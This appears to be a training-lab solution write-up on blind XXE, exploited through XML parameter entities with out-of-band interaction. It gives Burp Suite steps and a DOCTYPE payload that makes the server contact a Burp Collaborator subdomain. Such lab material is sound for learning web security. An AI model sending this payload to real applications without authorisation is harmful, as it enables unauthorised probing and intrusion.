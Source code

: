 # Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Solution
> Manual Exploitation
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
3. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Video Solution
- [Sommer's Video](https://youtu.be/1T9z1wNw9sk)
- [Seven Seas Security's Video](https://youtu.be/xjcSMFKVTW4)
